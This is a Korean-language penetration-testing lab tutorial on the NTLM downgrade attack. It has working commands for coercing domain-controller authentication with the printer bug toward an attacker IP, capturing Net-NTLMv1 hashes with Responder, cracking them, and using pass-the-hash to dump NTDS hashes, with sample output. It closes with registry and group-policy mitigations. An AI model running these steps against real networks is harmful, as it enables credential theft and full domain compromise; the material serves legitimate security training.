

# NTLM 다운그레이드

LLMNR, Nbt-NS, mDNS 포이즈닝 공격이나 강제 인증 공격으로 얻어진 Net-NTLMv1 해시들은 특정 조건이 맞을 때 NTLM 해시로 다운그레이드 공격을 할 수 있다. 다운그레이드 공격은 (복잡한) 암호학적 공격 (Cryptographic Attack) 관련된 공격이기 때문에 이 글에서는 설명하지 않는다. 관련 공격은 [이 레퍼런스](https://github.com/evilmog/ntlmv1-multi)를 참고하면 된다. 다운그레이드 해 얻어진 NTLM 해시는 Pass-the-Hash (PTH)을 통해 인증에 사용된다.&#x20;

### 전제 조건&#x20;

* 포이즈닝이나 강제 인증 공격으로 인증 트래픽과 해시를 얻을 것&#x20;
* 해시를 얻기 전 NTLM Challenge 를 1122334455667788 로 설정할 것&#x20;
* 얻은 해시가 Net-NTLMv1 일 것 (`HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel` 가 0, 1, 2 일 때)&#x20;
* Responder의 `--disable-ess` 등의 플래그 사용으로 Extended Session Security가 비활성화 된 Net-NTLMv1 해시일 것&#x20;

### 실습&#x20;



간단한 PoC를 위해 프린터 버그로 강제 인증을 실행하고, Responder로 해시를 받는다.&#x20;

```
# Responder 실행 
responder -I <NIC> -v --disable-ess 

# 프린터버그 실행 
git clone https://github.com/dirkjanm/krbrelayx
python3 printerbug.py '<domain>/<user>:<pass>'@<fqdn/IP> <attackerIP>
```



Inveigh + SpoolSample 혹은 Petitpotam 을 이용&#x20;






ESS가 비활성화된 Net-NTLMv1 은 `:` 를 기준으로 같은 문자열이 나온다. 이제 이 문자열을 `NTHASH:(문자열)` 형태로 `crack.sh` 라는 홈페이지에 첨부를 하면 NTLM 문자열을 받아올 수 있다.&#x20;

> 모의해킹을 진행하거나 레드팀 작전 수행 시 고객사 네트워크에서 얻은 해시를 랜덤한 홈페이지에 업로드 하면 안된다. 이 페이지의 실습은 연습용이기 때문에 crack.sh를 사용한다.&#x20;
>
> 실무였다면 crack.sh가 아니라 hashcat을 이용해 Net-NTLMv1 -> NTLM 다운 그레이드를 실행한다&#x20;

.png>)

이런식으로 첨부하면 이메일로 다운그레이드 된 NTLM 해시가 온다. 이제 이 해시를 이용해 PTH를 해 사용자 인증을 한다.&#x20;

이 실습에서는 강제 인증을 통해 도메인 컨트롤러의 머신 계정 NTLM 해시를 얻었다. 따라서 이를 이용해 NTDS 덤프 공격을 실행한다.&#x20;

```
┌──(root㉿kali)-[/opt/NetNTLMtoSilverTicket]
└─# cme smb 192.168.40.150 -u "DC01$" -H '01d90becd940616e8d0e7540f5e725dc' -d choi.local --ntds 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\DC01$:01d90becd940616e8d0e7540f5e725dc 
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... > 
```

### 대응 방안&#x20;

NTLM 다운그레이드 공격의 근본적 원인은 바로 타겟 호스트가 Net-NTLMv1 해시를 반환했다는 것이다. 윈도우 10과 윈도우 서버 2016 이후 기본적으로 Net-NTLMv2 를 사용하도록 되어있지만, 아직도 많은 네트워크에서는 하위 호환성을 위해 Net-NTLMv1 이나 심지어는 NTLM 해시를 사용하도록 되어있는 곳도 있다.&#x20;

따라서 하위 호환성 테스트를 거친 뒤 Net-NTLMv1 을 사용하는 프로세스나 어플리케이션이 없다면 모든 호스트에서 Net-NTLMv2 를 사용하도록 설정한다.&#x20;

```
# 레지스트리
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel 
- 3 이상으로 설정

# 그룹 정책 
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security: LAN Manager authentication level
- 3 이상으로 설정 
```


### 레퍼런스&#x20;






